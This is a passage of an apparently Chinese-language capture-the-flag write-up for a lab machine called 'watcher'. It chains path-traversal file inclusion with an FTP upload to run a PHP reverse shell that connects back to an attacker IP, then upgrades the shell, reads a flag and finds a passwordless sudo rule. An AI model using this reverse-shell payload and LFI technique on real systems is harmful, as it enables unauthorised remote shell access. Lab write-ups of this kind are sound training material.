 ## Reverse shell

可以上传，利用LFI尝试查看刚刚上传的文件：

    view-source:http://10.10.109.194/post.php?post=../../../../../../../../../home/ftpuser/ftp/files/test1.txt

可以读取到文件内容

由于在正常的情况下，php文件能够被它执行：

    http://10.10.109.194/post.php?post=striped.php

故利用php来reverse shell

上传php reverse shell:

    <?php
    $sock=fsockopen("10.14.39.48",8888);$proc=proc_open("/bin/bash -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
    ?>

也可使用msfvenom生成，playload: php/reverse_php

将shellcode上传files/：

    ftp> put ./linux-tools_and_exp/rev_she11.php ./rev_she11.php

打开nc监听：

    nc -vlnp 8888

访问shellcode：

    view-source:http://10.10.109.194/post.php?post=../../../../../../../../../home/ftpuser/ftp/files/rev_she11.php

成功getshell

升级shell:

    python3 -c "import pty;pty.spawn('/bin/bash')"

flag3:

    www-data@watcher:/var/www/html/more_secrets_a9f10a$ ls -la
    ls -la
    total 12
    drwxr-xr-x 2 root root 4096 Dec  3  2020 .
    drwxr-xr-x 5 root root 4096 Dec  3  2020 ..
    -rw-r--r-- 1 root root   21 Dec  3  2020 flag_3.txt
    www-data@watcher:/var/www/html/more_secrets_a9f10a$ cat flag_3.txt

## 横向移动 - sudo -l

sudo -l发现当前用户可以无需密码以toby执行任何命令：

    User www-data may run the following commands on watcher:
    (toby) NOPASSWD: ALL

